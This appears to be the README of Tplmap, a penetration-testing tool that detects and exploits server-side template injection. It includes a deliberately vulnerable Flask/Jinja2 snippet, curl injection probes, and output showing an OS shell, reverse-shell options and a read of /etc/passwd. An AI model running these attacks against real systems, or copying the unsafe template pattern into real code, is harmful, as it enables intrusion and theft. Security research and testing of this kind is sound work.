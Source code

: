 Tplmap
======

Tplmap (short for _Template Mapper_) automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities to break-out the sandbox and achieve remote command execution on the remote operating system. 

The tool can be used as a testbed to conduct researches on the SSTI vulnerability class and as offensive security tool in penetration test engagements.

The sandbox break-out techniques came from James Kett's [Server-Side Template Injection: RCE For The Modern Web App][10], other public researches [\[1\]][1] [\[2\]][2] and original works to extend this tool capabilities [\[3\]][3] [\[4\]][4].

It can achieve full compromise in several code context and blind injection scenarios. It also exploits _eval()_-like code injections in different languages and generic unsandboxed template engines.

Server-Side Template Injection
------------------------------

Assume that you are auditing a web site that generates dynamic pages using templates composed with user-provided values, such as this web application written in Python and [Flask][12] that uses [Jinja2][11] template engine in an unsafe way.

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')
    
    # SSTI VULNERABILITY
    
    # The user-controllable GET parameter `name` is
    # concatenated to the template string instead of
    # being passed as context to the `render()` method. 
    
    output = Jinja2.from_string('Hello ' + name + '!').render()

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

From a black box testing perspective, the page reflects the value similarly to a XSS vulnerability, but also computes basic operation at runtime disclosing its SSTI nature.

```
$ curl -g 'http://www.target.com/page?name=John'
Hello John!
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

Exploitation
------------

Tplmap is able to detect and exploit SSTI in a range of template engines, including Jinja2, to get access to the underlying file system and operating system. Run it against the URL to test if the parameters are vulnerable.

```
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: yes
   Bind and reverse shell: yes
   File write: yes
   File read: yes
   Code evaluation: yes, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell                Run shell on the target
    --os-cmd                  Execute shell commands
    --bind-shell PORT         Connect to a shell bind to a target port
    --reverse-shell HOST PORT Send a shell back to the attacker's port
    --upload LOCAL REMOTE     Upload files to the server
    --download REMOTE LOCAL   Download remote files
```

Use `--os-shell` option to compromise the target in a fully automated way.

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ head /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Supported template engines
--------------------------

Tplmap can exploit SSTI vulnerabilities in over 15 template engines, unsandboxed template engines and generic _eval()_-like injections. Blind injections and injections in code contexts are also supported.

| Template engine    | Remote Command Execution |  Blind | Code evaluation | File read | File write |
|----------------------|-------|-------------------|-----------------|-----------|------------|
| Mako                 | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Jinja2               | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Python (generic)     | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Tornado              | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Nunjucks             | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Jade                 | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| doT                  | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Marko                | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| JavaScript (generic) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Dust (<= dustjs-helpers@1.5.0) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Smarty (unsecured)   | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| PHP (generic)        | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Freemarker           | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Velocity             | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Twig                 | × | ×                 | ×               | ×         | ×          |
| Smarty (secured)     | × | ×                 | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0)  | × | ×                 | ×               | ×         | ×          |

[10]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[11]: http://jinja.pocoo.org/
[12]: http://flask.pocoo.org/
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
